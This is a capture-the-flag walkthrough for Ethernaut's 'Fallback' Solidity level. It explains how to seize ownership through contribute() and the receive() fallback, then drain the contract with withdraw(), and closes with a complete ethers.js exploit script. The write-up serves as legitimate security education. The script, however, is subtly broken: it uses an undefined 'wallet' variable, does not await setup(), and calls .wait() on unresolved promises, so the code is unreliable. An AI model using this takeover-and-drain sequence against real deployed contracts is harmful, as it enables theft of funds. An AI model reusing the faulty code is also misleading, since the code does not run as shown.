 ```yaml
---
description: >-
  In Ethernaut's Fallback, we get some practice walking through Solidity
  contract logic and are introduced to the concept of "fallback" functions.
---
```


# 1 - Fallback

The goal of [this level](https://ethernaut.openzeppelin.com/level/0x9CB391dbcD447E645D6Cb55dE6ca23164130D008) is to claim ownership of the `Fallback` contract and reduce its balance to zero.

### Hints

<details>

<summary>Hint One</summary>

Before we can withdraw funds, we must first become the contract's `owner`. Where in the code is the owner variable first assigned? Where is it reassigned? When it is reassigned, what conditions need to be met that would result in `msg.sender` becoming the `owner`? Could we construct a series of transactions to meet these conditions?

</details>

<details>

<summary>Hint Two</summary>

We can become the contract `owner` by triggering its `receive` function after making an initial transaction via the `contribute` function to satisfy the second part of its `require(msg.value > 0 && contributions[msg.sender] > 0);` condition. The `receive` function is a special "fallback" function in Solidity. How is it triggered?

</details>

### Full Walkthrough

#### Claiming Ownership

The contract's `owner` is set by its constructor to the address from which it was deployed. There are only two sections of the code in which the owner may be reassigned. The first, within the `contribute` function, is a dead end. This is because it requires the sender's contributions to be greater than the owner's, while the constructor has already set the owner's contribution to 1,000 ether (line 13: `contributions[msg.sender] = 1000 * (1 ether);`) and the `contribute` function limits each of the player's contributions to < 0.001 ether.

```solidity
function contribute() public payable {
    require(msg.value < 0.001 ether);
    contributions[msg.sender] += msg.value;
    if (contributions[msg.sender] > contributions[owner]) {
        owner = msg.sender;
    }
}
```

The second section of the code in which the contract owner may be reassigned is found within the `receive` ("Receive Ether") function.

```solidity
receive() external payable {
    require(msg.value > 0 && contributions[msg.sender] > 0);
    owner = msg.sender;
}
```

The `receive` function checks first that the value of the transaction is non-zero, and that the contributions of the sender address are non-zero, before reassigning the `owner` to `msg.sender`. This means we may pass this `require` condition by first sending a small transaction via the `contribute` function (< 0.001 ether), then by sending a second transaction of any non-zero value to the contract address with empty calldata to trigger its `receive` function.

{% hint style="info" %}
**Fallback Functions**

Solidity (version 0.6.x+) contracts may contain two special "fallback" functions, `receive` and `fallback`:

* **receive** is triggered when a contract receives a transaction with empty calldata.
* **fallback** is triggered when no other function (not even `receive`) matches.
{% endhint %}

#### Reducing Balance to Zero

Once the owner address is set to the player's address, we may call the `withdraw` function directly as the `require` condition of the `onlyOwner` modifier has now been satisfied.

```solidity
function withdraw() public onlyOwner {
    owner.transfer(address(this).balance);
}
```

### Scripted Solution

```javascript
const ethers = require('ethers')
const fs = require('fs')
require('dotenv').config({ path: './.env' })

/**
 * Initialize the basic Ethers objects needed to interact with the blockchain 
 * and contract.
 */
async function setup(contractName) {
  // Create provider - a read-only abstraction to access blockchain data
  const provider = new ethers.providers.InfuraProvider(process.env.NETWORK)
  // Create player wallet
  const playerWallet = new ethers.Wallet(process.env.PRIVATE_KEY)
  // Create player wallet signer - an abstraction of an Ethereum account
  const playerWalletSigner = await wallet.connect(provider)
  // Create contract instance - an abstraction of the deployed contract code
  const contractAbi = fs.readFileSync(`./${contractName}.abi`, 'utf8')
  const contract = new ethers.Contract(
    process.env.CONTRACT_ADDRESS,
    contractAbi,
    playerWalletSigner
  )

  return { provider, playerWallet, playerWalletSigner, contract }
}

/**
 * Run contract exploit.
 */
async function main() {
  // Get basic Ethers objects needed to interact with the blockchain and contract
  const { 
  provider,
    playerWallet, 
    playerWalletSigner, 
    contract: fallbackContract 
  } = setup('Fallback')
  
  // Contribute 0.0001 ether via Fallback contract's 'contribute' function
  const contributionValue = ethers.utils.parseEther('0.0001')
  console.log(`Sending Fallback 'contribute' ${contributionValue.toString()}...`)
  await fallbackContract.contribute({
    value: contributionValue
  }).wait(1)

  // Confirm contribution via Fallback contract's 'getContribution' function
  console.log(
    `Current contribution: ${await fallbackContract.getContribution().toString()}`
  )

  // Send ether to Fallback contract address ('receive' function)
  console.log(
    `Sending ${contributionValue.toString()} to Fallback contract address...`
  )
  await playerWalletSigner.sendTransaction({
    to: process.env.CONTRACT_ADDRESS,
    value: contributionValue,
    gasPrice: 20000000000,
  }).wait(1)

  // Check current Fallback contract 'owner'
  const fallbackContractOwner = await fallbackContract.owner()
  console.log(`Fallback contract 'owner' is now: ${fallbackContractOwner}`)

  if (fallbackContractOwner === playerWallet.address) {
    console.log('Player is contract owner.')

    // Withdraw funds via Fallback contract's 'withdraw' function
    console.log('Withdrawing contract balance...')
    await fallbackContract.withdraw().wait(1)

    // Check new Fallback contract balance
    const contractBalance = await provider.getBalance(
      process.env.CONTRACT_ADDRESS
    )
    console.log(`Contract balance is now: ${contractBalance.toString()}`)
  }
}

main()
  .then(() => process.exit(0))
  .catch((error) => {
    console.error(error)
    process.exit(1)
  })
```

### Key Takeaways

* Solidity contains two special **fallback functions**. One of which, **receive**, is triggered when a contract receives a transaction with empty calldata.
